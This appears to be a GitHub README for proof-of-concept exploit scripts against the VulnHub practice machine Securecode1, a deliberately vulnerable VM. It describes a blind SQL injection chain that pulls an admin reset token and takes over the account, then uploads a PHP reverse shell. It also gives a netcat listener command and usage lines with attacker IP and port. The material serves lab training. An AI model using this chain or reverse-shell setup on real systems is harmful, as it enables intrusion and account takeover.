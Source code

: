 # securecode1
PoC for VulnHub machine Securecode1

Vulnerable machine author: sud0root

Link to vulernable VM: https://www.vulnhub.com/entry/securecode-1,651/

start a NetCat listener with:
 nc -nlvp <IP> <port>

usage: python3 poc.py -t \<target\> -p \<password to set\> -i \<attacker IP\> -pt \<attacker port\>
 
 Explaination of script below contains spoilers, read/use only if stuck.
  
This script leverages boolean based blind SQL Injection to enumerate the adminstrative user on the "HackShop" web application on the VulnHub machine Securecode1. It then requests a password reset token for the adminstrative user. 
  
The blind SQLi is then used again to enumerate the token. The token is then passed to reset the administrative user account's password with the password passed with the -p flag.
  
The script then logs in and pulls the first flag.
 
A php reverse shell is then uploaded and executed connecting to the IP and port suppled by the -i and -pt options.

 version 1 poc.py is hardcoded to utilize proxy at 127.0.0.1:8080
 
 Use version 2 poc2ab.py and poc2.py for optional proxy use and faster exploitation.
 
poc2ab.py is a standalone auth bypass that will use SQLi to pull the admin username, request a reset token, pull token with SQLi, reset the password, login, and pull the first flag. It is an imporvement on the auth bypass in poc.py leveraging a bit shift instead of sequential bruteforce drastically increasing the speed.
 
 poc2.py is auth bypass using bit shift plus RCE
 
 usage:
 
 python3 poc2ab.py -t \<target\> -p \<password to set\>
 
 python3 poc2.py -t \<target\> -p \<password to set\> -i \<Attacker IP\> -pt \<Attacker port\>
 
 -d or --debug can be added to utilize Burp or ZAP proxies runnin on 127.0.0.1:8080
  

